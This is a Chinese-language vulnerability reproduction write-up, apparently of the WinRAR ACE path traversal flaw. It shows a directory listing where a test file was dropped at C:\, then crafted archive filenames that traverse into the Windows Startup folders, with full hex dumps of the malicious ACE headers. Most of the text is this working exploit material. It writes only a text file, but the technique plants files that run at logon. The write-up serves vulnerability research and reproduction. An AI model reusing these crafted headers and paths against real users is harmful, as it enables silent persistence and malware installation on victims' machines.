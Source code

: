   进行攻击尝试，发现可以实现攻击

  ```cmd
  C:\>dir
   驱动器 C 中的卷没有标签。
   卷的序列号是 2E73-CE10
  
   C:\ 的目录
  
  2009/07/14  11:20    <DIR>          PerfLogs
  2019/02/26  10:49    <DIR>          Program Files
  2019/02/26  11:06    <DIR>          Program Files (x86)
  2019/02/15  17:03    <DIR>          Python27
  2019/02/27  10:35                13 TESTPAYLOAD01.txt
  2016/09/05  10:22    <DIR>          Users
  2019/02/26  11:18    <DIR>          Windows
  ```

  不过在win7开启UAC 等保护的情况下，确实会出现漏洞分析时讲过的释放目录不同的情况

- **构造进行系统默认自启动目录攻击**

  win7情况下，直接采用，挖掘作者的payload ,测试，仅在桌面上解压文件夹中生成相应目录，释放文件，这个是构造的payload的问题应该为，才可以攻击成功

  ```
  C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
  ```

  ```cmd
  00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
  00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A D9 E9 71 00 01 01 80 0D 00 00 00 ; SION*匍q...€....
  00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
  00000050h: 00 03 0A 00 54 45 52 00 43 3A 2E 2E 2F 41 70 70 ; ....TER.C:../App
  00000060h: 44 61 74 61 5C 52 6F 61 6D 69 6E 67 5C 4D 69 63 ; Data\Roaming\Mic
  00000070h: 72 6F 73 6F 66 74 5C 57 69 6E 64 6F 77 73 5C 53 ; rosoft\Windows\S
  00000080h: 74 61 72 74 20 4D 65 6E 75 5C 50 72 6F 67 72 61 ; tart Menu\Progra
  00000090h: 6D 73 5C 53 74 61 72 74 75 70 5C 54 45 53 54 50 ; ms\Startup\TESTP
  000000a0h: 41 59 4C 4F 41 44 2E 74 78 74 41 41 41 41 41 41 ; AYLOAD.txtAAAAAA
  000000b0h: 41 41 41 41 20 0D 0A                            ; AAAA ..
  ```

  采用payload

  ```
  C:\C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
  ```

  ```cmd
  00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
  00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A AA 89 6E 00 01 01 80 0D 00 00 00 ; SION*獕n...€....
  00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
  00000050h: 00 03 0A 00 54 45 4F 00 43 3A 5C 43 3A 5C 50 72 ; ....TEO.C:\C:\Pr
  00000060h: 6F 67 72 61 6D 44 61 74 61 5C 4D 69 63 72 6F 73 ; ogramData\Micros
  00000070h: 6F 66 74 5C 57 69 6E 64 6F 77 73 5C 53 74 61 72 ; oft\Windows\Star
  00000080h: 74 20 4D 65 6E 75 5C 50 72 6F 67 72 61 6D 73 5C ; t Menu\Programs\
  00000090h: 53 74 61 72 74 75 70 5C 54 45 53 54 50 41 59 4C ; Startup\TESTPAYL
  000000a0h: 4F 41 44 2E 74 78 74 41 41 41 41 41 41 41 41 41 ; OAD.txtAAAAAAAAA
  000000b0h: 41 20 0D 0A                                     ; A ..
  ```
